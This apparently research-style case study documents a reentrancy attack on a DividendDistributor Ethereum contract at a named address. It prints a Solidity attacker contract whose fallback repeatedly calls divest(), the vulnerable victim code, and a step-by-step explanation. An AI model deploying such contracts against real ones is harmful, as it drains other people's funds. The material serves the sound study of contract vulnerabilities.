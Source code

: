 #########
Attack 03
#########

**Contract Name**

DividendDistributor

**Contract Address**

0x7bc51b19abe2cfb15d58f845dad027feab01bfa0

**Transaction Count**

6

**Invovled Ethers**

1.6 Ethers

**Length of the Call Chain**

2 internal function calls, 1 external function

**Victim Function**

``loggedTransfer``

**Attack Mechanisim**

Attack code:
::

    contract Attack{
        DividendDistributor d = new DividendDistributor();
        uint bigamount = 1;
        constructor() payable {}
        function register() public {
            d.invest.value(10)();
        }
        function attack(uint amount) public {
            d.divest(amount);
        }
        function() payable{
            d.divest(bigamount);
        }
        function getvalue() returns (uint) {
            return this.balance;
        }
    }

Attacked code:
::

    contract DividendDistributor is Ownable{
        struct Investor {
            uint investment;
            uint lastDividend;
        }

        mapping(address => Investor) investors;

        uint public minInvestment;
        uint public sumInvested;
        uint public sumDividend;
        
        function loggedTransfer(uint amount, bytes32 message, address target, address currentOwner) protected
        {
            if(! target.call.value(amount)() )
                throw;
            Transfer(amount, message, target, currentOwner);
        }
        
        function invest() public payable {
            if (msg.value >= minInvestment)
            {
                investors[msg.sender].investment += msg.value;
                sumInvested += msg.value;
                // manually call payDividend() before reinvesting, because this resets dividend payments!
                investors[msg.sender].lastDividend = sumDividend;
            }
        }

        function divest(uint amount) public {
            if ( investors[msg.sender].investment == 0 || amount == 0)
                throw;
            // no need to test, this will throw if amount > investment
            investors[msg.sender].investment -= amount;
            sumInvested -= amount; 
            this.loggedTransfer(amount, "", msg.sender, owner);
        }
        
        // OWNER FUNCTIONS TO DO BUSINESS
        function distributeDividends() public payable onlyOwner {
            sumDividend += msg.value;
        }
        
        function doTransfer(address target, uint amount) public onlyOwner {
            this.loggedTransfer(amount, "Owner transfer", target, owner);
        }
        
        function setMinInvestment(uint amount) public onlyOwner {
            minInvestment = amount;
        }
        
        function () public payable onlyOwner {
        }
        ...
    }

In this attack, we need to register the ``investors`` array first in order to guarantee we can pass the ``if`` condition in victim function ``divest``. We send ethers to the victim function to add some balances to variable ``sumInvested``. 

The attack process starts with function ``attack`` in the attacker's contract. It transacts with victim contract by calling ``divest`` function. The ``if`` check doesn't work due to our preliminary efforts. The running process goes to statement ``this.loggedTransfer();`` and calls an internal function ``loggedTransfer``. In this function, it does transaction first, however, the transaction target and the amount rely on the function arguments without any check. The transaction operation will call the fallback function in attacker's code. That's why we set an ``divest`` call in there. Hence, a function call loop is built. We successfully achieved *Reentrancy* attack.